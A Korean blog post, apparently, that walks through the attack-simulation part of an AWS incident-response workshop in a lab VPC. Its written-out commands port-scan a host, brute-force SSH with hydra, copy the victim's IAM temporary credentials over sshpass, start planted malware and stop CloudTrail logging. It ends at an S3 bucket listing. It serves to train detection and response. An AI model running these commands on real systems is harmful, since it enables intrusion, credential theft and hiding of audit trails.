 layout: single
title:  "aws 침해 대응 워크샵 (공격 시뮬레이션 세부내용)"
tags:
  - aws
  - incidentResponse
  - security
  - 침해사고 대응
categories:
  - aws
  - security
### 2-1 Session Manager를 통해 Malicious Host로 접속

system Manager > Session Manger 
Peference에서 Linux (Ubuntu)의 Run As 지원을 활성화 한다.
그 후 스크립트를 돌려 생긴 Malicious Host로 세션을 시작한다

세션 접속후 
```
#jq 설치
sudo apt install jq

#계정 환경변수로 등록 
export ACCOUNT_ID=$(curl -s 169.254.169.254/latest/dynamic/instance-identity/document | jq -r '.accountId')
echo "export ACCOUNT_ID=${ACCOUNT_ID}" | tee -a ~/.bash_profile

```

### 2-2 Compromised Host에 대한 포트스캐닝 및 부르트포스 공격

접속된 Session Manager 브라우져 쉘(sir-workshop: Malicious Host)에 다음 명령어를 입력하여 포트스캐닝을 수행합니다. 타겟 IP는 10.0.0.15로서 Compromised Host의 Private IP 입니다.

```
sudo nmap -sT -Pn 10.0.0.15
```
참고

```
# nmap는 포트 스캔을 위한 툴 
# 특정 서버 아이피 포트 스캐닝
$ nmap 서버 아이피 -p 포트번호

OPEN : 포트가 열려 있음 
CLOSE : 포트가 닫혀 있음
filtered : 필터링 되고 있음 (방화벽에 의해 차단되거나 응용프로그램에 문제가 있는 경우)

```



22번 포트가 열린 것을 확인하고 클라우드 포메이션으로 준비한 스크립트 동작 시킴 > Brutueforce 공격 실행

![](https://velog.velcdn.com/images/yuran3391/post/0e90926c-5874-4cf3-b72f-92784d889864/image.png)

```
# Create SSH Brute Force script
cat <<EOT >> /home/ubuntu/ssh-bruteforce.sh
#!/bin/bash
/usr/local/bin/hydra -C /home/ubuntu/thc-hydra/dpl4hydra_root.lst -M /home/ubuntu/targets.txt ssh -t 4
/usr/local/bin/hydra -C /home/ubuntu/thc-hydra/dpl4hydra_root.lst -M /home/ubuntu/targets.txt ssh -t 4
EOT
chmod 744 /home/ubuntu/ssh-bruteforce.sh
chown ubuntu /home/ubuntu/ssh-bruteforce.sh
```

해당 스크립트는 Compromised Host에 대해 thc-hydra 툴을 이용하여 Bruteforce 공격을 2회에 걸쳐 수행합니다.
![](https://velog.velcdn.com/images/yuran3391/post/77ded4bf-85ec-496c-8406-36a893bf07c4/image.png)


10분정도 기다려야함

hydra 참고 (해킹툴임)
```
$ hydra -h
Hydra v9.5-dev (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [-m MODULE_OPT] [service://server[:PORT][/OPT]]

Options:
  -R        restore a previous aborted/crashed session
  -I        ignore an existing restore file (don't wait 10 seconds)
  -S        perform an SSL connect
  -s PORT   if the service is on a different default port, define it here
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -x MIN:MAX:CHARSET  password bruteforce generation, type "-x -h" to get help
  -y        disable use of symbols in bruteforce, see above
  -r        use a non-random shuffling method for option -x
  -e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
  -u        loop around users, not passwords (effective! implied with -x)
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -o FILE   write found login/password pairs to FILE instead of stdout
  -b FORMAT specify the format for the -o FILE: text(default), json, jsonv1
  -f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -T TASKS  run TASKS connects in parallel overall (for -M, default: 64)
  -w / -W TIME  wait time for a response (32) / between connects per thread (0)
  -c TIME   wait time per login attempt over all threads (enforces -t 1)
  -4 / -6   use IPv4 (default) / IPv6 addresses (put always in [] also in -M)
  -v / -V / -d  verbose mode / show login+pass for each attempt / debug mode
  -O        use old SSL v2 and v3
  -K        do not redo failed attempts (good for -M mass scanning)
  -q        do not print messages about connection errors
  -U        service module usage details
  -m OPT    options specific for a module, see -U output for information
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)

Supported services: adam6500 asterisk cisco cisco-enable cobaltstrike cvs ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp

Hydra is a tool to guess/crack valid login/password pairs.
Licensed under AGPL v3.0. The newest version is always available at;
https://github.com/vanhauser-thc/thc-hydra
Please don't use in military or secret service organizations, or for illegal
purposes. (This is a wish and non-binding - most such people do not care about
laws and ethics anyway - and tell themselves they are one of the good ones.)
These services were not compiled in: afp firebird memcached mongodb ncp oracle radmin2 rdp sapr3 smb2 and regex support.

Use HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables for a proxy setup.
E.g. % export HYDRA_PROXY=socks5://l:p@127.0.0.1:9150 (or: socks4:// connect://)
     % export HYDRA_PROXY=connect_and_socks_proxylist.txt  (up to 64 entries)
     % export HYDRA_PROXY_HTTP=http://login:pass@proxy:8080
     % export HYDRA_PROXY_HTTP=proxylist.txt  (up to 64 entries)

Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
  ```
  
### 2-3 Compromised Host의 IAM Role 임시 자격증명 탈취

```
 # make script to get AWS credential of Compromised Host
cat <<EOT >> /home/ubuntu/get-credential.sh

#!/bin/bash
/usr/bin/sshpass -p "hackedPassword123!" scp -o StrictHostKeyChecking=no -r hackeduser@10.0.0.15:/home/hackeduser/found-credential.sh /home/ubuntu/set-credential.sh
chmod 744 /home/ubuntu/set-credential.sh
chown ubuntu /home/ubuntu/set-credential.sh
EOT


chmod 744 /home/ubuntu/get-credential.sh
chown ubuntu /home/ubuntu/get-credential.sh
```
다음 스크립트를 통해, Compromised Host에 구성된 IAM Role의 임시 자격증명을 탈취합니다.

```
sshpass란 다른 컴퓨터에 바로 ssh 연결을 할 수 있고, 연결된 컴퓨터에서 명령어를 실행할 수 있는 기능을 말합니다. 즉, 다른 컴퓨터에 ssh연결을 한 뒤, 명령어까지 실행할 수 있는 기능입니다. sshpass는 ssh에서 파생된 기능입니다. ssh는 Secure Sheel Protocol의 약자로, 컴퓨터와 컴퓨터가 Public Network를 통해 서로 보안적으로 안전하게 통신하기 위한 프로토콜입니다. ssh는 데이터를 전송하거나, 원격 제어를 할때 많이 사용됩니다.
```


```
/home/ubuntu/get-credential.sh
```
정상적으로 2-2단계가 진행되었다면, 5 분 이내에 Compromised Host에 대한 SSH 포트 차단 규칙이 NACL에 반영되므로, 5분 안에 단계 2-3을 진행해야 합니다.

계속해서 다음 스크립트를 통해, 탈취한 Compromised Host의 임시 자격증명을 Malicious Host 상에 설정합니다. 정상적으로 실행된다면, --attacker 라는 aws CLI용 Profile이 생성되며, 별도의 결과는 없습니다.

```
$ /home/ubuntu/get-credential.sh
Warning: Permanently added '10.0.0.15' (ECDSA) to the list of known hosts.
$ /home/ubuntu/set-credential.sh
```

### 2-4 Compromised Host에 있는 malware 기동
이번에는 다음 스크립트를 통해 Compromised Host에 있는 i-am-malware를 기동해 보겠습니다. 정상적으로 실행되면 아무런 리턴을 하지 않습니다.

```
/home/ubuntu/start-malware.sh
```

```
# make script to start malware installed on Compromised Host
cat <<EOT >> /home/ubuntu/start-malware.sh
#!/bin/bash
/usr/bin/sshpass -p "hackedPassword123!" ssh -o StrictHostKeyChecking=no hackeduser@10.0.0.15 ". ./i-am-malware.sh"
EOT
chmod 744 /home/ubuntu/start-malware.sh
chown ubuntu /home/ubuntu/start-malware.sh
```

### 2-5 CloudTrail 로깅 비활성화
탈취한 자격증명을 통해, AWS Cloudtrail의 구성되어 있는 trail 목록을 확인하겠습니다. 다음 AWS CLI를 실행해 주시기 바랍니다.

```
/usr/local/bin/aws cloudtrail list-trails --profile attacker

# 아래 CLI를 통해 CloudTrail에 구성된 해당 Trail을 비활성화 해보겠습니다. 정상적으로 실행되면 아무런 결과를 리턴하지 않습니다.


/usr/local/bin/aws cloudtrail stop-logging --name arn:aws:cloudtrail:ap-northeast-2:${ACCOUNT_ID}:trail/sir-workshop-trail --profile attacker
```
### 2-6 S3의 중요 기밀 파일 유출, Public설정, 암호화 해제

접속중인 Session Manager 브라우져 쉘에서, 다음 CLI를 통해 다음 버킷의 객체들을 조회해 봅니다.

```
/usr/local/bin/aws s3api list-objects --bucket sir-workshop-${ACCOUNT_ID}-ap-northeast-2-data --profile attacker```
